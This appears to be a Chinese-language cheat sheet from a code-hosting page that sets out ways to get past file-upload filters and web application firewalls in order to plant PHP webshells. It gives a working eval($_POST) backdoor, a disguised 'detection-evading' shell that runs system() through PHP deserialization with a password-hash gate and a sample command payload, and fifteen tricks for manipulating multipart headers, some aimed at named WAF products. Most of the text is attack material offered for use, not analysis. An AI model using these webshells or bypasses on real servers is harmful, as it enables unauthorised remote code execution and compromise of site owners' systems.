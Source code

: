 1.先假设一个前提，可以上传.htaccess或者.user.ini  
因为不知道目标使用的是 nginx 还是 Apache，所以给两个参考链接  
如果是nginx可以看看我这篇文章的0x01 CheckIn：https://www.cnpanda.net/ctf/383.html  
如果是apache可以看看这篇文章：https://thibaud-robin.fr/articles/bypass-filter-upload/  
2.如果检测是`<?php ?>`  
可以试一试使用其他标签，如  

```
<script language="php">
 eval($_POST[2333]);
</script>
```
这个要求`php<7`
或者  
```
<?
...
?>
```

3.如果检测的不是php标签，是敏感内容的话，这里送你一个免杀php马  

```php
<?php

if (isset($_POST['run'])) {
  class HandShip {
     public $name;
     public $male;
     function __destruct() {
        $allin = $this->name;
        $allin($this->male);
     }
  }
if(md5($_POST['code'])=='ce61649168c4550c2f7acab92354dc6e'){

  unserialize($_POST['run']);
}
}
?>
```
用法：  

`run=O:8:"HandShip":2:{s:4:"name";s:6:"system";s:4:"male";s:9:"cat /home";};&code=panda`

4.绕过思路：对文件的内容，数据。数据包进行处理。  

关键点在这里`Content-Disposition: form-data; name="file"; filename="ian.php"`
将`form-data; ` 修改为`~form-data;`  
5.通过替换大小写来进行绕过  
```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
```
将`Content-Disposition`    修改为`content-Disposition`
将` form-data`  修改为`Form-data`
将`Content-Type` 修改为`content-Type`  
6.通过删减空格来进行绕过  
```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
```
将`Content-Disposition: form-data`         冒号后面 增加或减少一个空格
将`form-data; name="file";`               分号后面 增加或减少一个空格
将`Content-Type: application/octet-stream`   冒号后面 增加一个空格  
7.通过字符串拼接绕过  

看`Content-Disposition: form-data; name="file"; filename="yjh3.php"`
将` form-data` 修改为  ` f+orm-data`
将`from-data` 修改为   `form-d+ata`  
8.双文件上传绕过  
```html
<form action="https://www.xxx.com/xxx.asp(php)" method="post"
name="form1" enctype="multipart/form‐data">
<input name="FileName1" type="FILE" class="tx1" size="40">
<input name="FileName2" type="FILE" class="tx1" size="40">
<input type="submit" name="Submit" value="上传">
</form>
```

9.HTTP header 属性值绕过  

`Content-Disposition: form-data; name="file"; filename="yjh.php"`
我们通过替换`form-data` 为`*`来绕过
`Content-Disposition: *; name="file"; filename="yjh.php"`  
10.HTTP header 属性名称绕过  
源代码:
```
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"
Content-Type: image/png
```
绕过内容如下：  
```
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
```
删除掉`ontent-Type: image/png`只留下`c`，将`.php`加`c`后面即可，但是要注意额，双引号要跟着c.php".  
11.等效替换绕过  
原内容：
```
Content-Type: multipart/form-data; boundary=---------------------------471463142114
```
修改后:  
```
Content-Type: multipart/form-data; boundary =---------------------------471463142114
```
`boundary`后面加入空格。  
12.修改编码绕过  
使用`UTF-16`、`Unicode`、`双URL编码`等等  
13.WTS-WAF 绕过上传  
原内容：

```
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
```
添加回车  
```
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
```
14.百度云上传绕过  

百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。
`Content-Disposition: form-data; name="up_picture"; filename="xss.jpg .Php"`   
15.填充垃圾数据，造成溢出后使WAF崩掉  

```
Content-Disposition: 字段溢出即可 比如Content-Disposition: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA一直加就行了十万++
```
